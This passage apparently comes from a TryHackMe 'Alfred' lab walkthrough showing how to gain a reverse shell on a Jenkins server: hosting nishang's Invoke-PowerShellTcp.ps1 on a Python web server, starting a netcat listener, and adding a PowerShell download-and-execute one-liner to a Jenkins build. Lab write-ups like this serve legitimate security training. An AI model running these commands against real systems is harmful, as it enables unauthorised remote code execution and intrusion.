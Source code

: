 3. Use the [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) script to establish a reverse shell:
   - Download the script locally:
     ```bash
     nano Invoke-PowerShellTcp.ps1
     ls
     install.sh  Invoke-PowerShellTcp.ps1
     ```
   - Host the script on a Python web server:
     ```bash
     python3 -m http.server 4444
     ```
   - Set up a Netcat listener:
     ```bash
     nc -nlvp 9999
     ```

4. In the Jenkins configuration, add the following command to download and execute the PowerShell script:
   ```powershell
   powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.145.45:4444/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.145.45 -Port 9999
   ```
   ![](/assets/TryHackMeRoomsImage/Alfred/image4.png)

5. Save the configuration and click **Build Now** to execute the command:
   ![](/assets/TryHackMeRoomsImage/Alfred/image5.png)
